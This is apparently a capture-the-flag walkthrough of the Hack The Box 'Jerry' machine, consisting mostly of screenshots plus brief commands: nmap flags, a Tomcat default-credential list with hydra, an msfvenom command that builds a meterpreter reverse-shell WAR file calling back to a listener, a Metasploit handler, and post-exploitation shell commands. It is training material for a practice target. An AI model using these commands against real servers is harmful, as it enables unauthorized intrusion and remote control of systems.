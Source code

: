 # Jerry

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

You can use the -sC for scripts to identify potential vulnerabilities, configuration issues and additional service details.&#x20;

\-sV is service version detection, it will send probes to the ports and compares against a database.



Tomcat is a webserver that can host Java files.



<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>



`less ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt`



`hydra -h`





<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`msfvenom -l payloads`

`msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats`

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat`

`msfdb run`

`msf6 > use exploit/multi/handler`

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



`10.10.10.95:8080/tomcat1/dnawdram.jsp`



<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



`shell`

`whoami`

`dir`

`cd Administrator`

`cd Desktop`

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>







References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
